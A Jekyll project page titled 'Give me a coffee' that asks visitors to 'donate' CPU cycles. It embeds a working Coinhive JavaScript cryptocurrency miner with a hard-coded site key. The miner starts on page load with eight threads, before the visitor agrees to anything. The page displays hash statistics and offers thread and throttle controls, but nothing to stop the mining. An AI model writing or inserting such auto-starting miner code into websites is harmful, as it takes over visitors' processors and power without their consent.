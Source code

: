 ```yaml
---
layout: project
type: WIP
noimage: '<i class="fa fa-coffee fa-big12" aria-hidden="true"></i>'
image: 
title: Give me a coffee
github: 
description: Buy me a coffee buy giving me some CPU cycles.
---
```


### Performances:

* **Hashes per seconds:** <em id="hashespersecond">0</em><em>H/s</em><br>
* **Total hashes:** <em id="totalhashes">0</em><em>H</em><br>
* **Accepted hashes:** <em id="accepted">0</em><em>H</em>
* **Threads:**  <em id="numthreads">8</em> <em>Threads</em>    <button onclick="addThread();">+</button> <button onclick="removeThread();">-</button>
* **Throttle:**  <em id="throttle">0.5</em>    <button onclick="increaseThrottle();">+</button> <button onclick="reduceThrottle();">-</button>
* **Info:** <em id="info">Connecting</em>
<script src="https://coin-hive.com/lib/coinhive.min.js"></script>

<script>
	var miner = {};
	window.onload = function() {
		miner = new CoinHive.Anonymous('94Ewh5erEv797iMDCHPDwSqQHFt6dvvd');
		miner.start();
		miner.setThrottle(0.5);
		miner.setNumThreads(8);
			// Listen on events
		miner.on('found', function() { /* Hash found */ })
		miner.on('accepted', function() { /* Hash accepted by the pool */ })


		miner.on("authed", function() {
			document.getElementById("info").innerHTML = "Connected";
		})
		// Update stats once per second
		setInterval(function() {	
			var hashesPerSecond = miner.getHashesPerSecond();
			var totalHashes = miner.getTotalHashes();
			var acceptedHashes = miner.getAcceptedHashes();
			var numThreads = miner.getNumThreads();
			var throttle = miner.getThrottle();
			document.getElementById("hashespersecond").innerHTML = hashesPerSecond.toString();
			document.getElementById("totalhashes").innerHTML = totalHashes.toString();
			document.getElementById("accepted").innerHTML = acceptedHashes.toString();
			document.getElementById("numthreads").innerHTML = numThreads.toString();
			document.getElementById("throttle").innerHTML = throttle.toString();
			// Output to HTML elements...
		}, 1000);
	} 

	function addThread() {
		t = miner.getNumThreads();
		miner.setNumThreads(t+1);
	}
	function removeThread() {
		t = miner.getNumThreads();
		miner.setNumThreads(t-1);
	}

	function increaseThrottle() {
		t = miner.getThrottle();
		if(t > 0.5) {
			t = 0.5
		} else {
			t += 0.1;
		}
		miner.setThrottle(t.toFixed(1));
	}
	function reduceThrottle() {
		t = miner.getThrottle();
		if(t <= 0.21) {
			t = 0.1
		} else {
			t -= 0.1;
		}
		miner.setThrottle(t.toFixed(1));
	}
	
</script>